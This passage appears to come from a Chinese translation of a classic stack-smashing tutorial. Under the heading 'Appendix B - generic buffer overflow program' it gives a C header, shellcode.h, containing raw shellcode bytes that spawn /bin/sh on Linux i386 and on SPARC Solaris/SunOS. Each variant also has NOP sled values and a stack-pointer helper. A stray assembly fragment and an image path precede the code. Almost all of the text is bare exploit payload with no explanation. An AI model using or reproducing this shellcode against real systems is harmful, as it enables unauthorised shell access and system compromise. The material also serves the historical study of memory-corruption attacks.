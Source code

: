 ```
ta %l5 + 1
```


## 附录 B - 通用缓冲区溢出程序

shellcode.h

```c
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE 1
char nop[] = "\x90";
char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE 4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
    "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
    "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
    "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
    "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
    __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE 4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
    "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
    "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
    "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
    "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
    __asm__("or %sp, %sp, %i0");
}

#endif
```
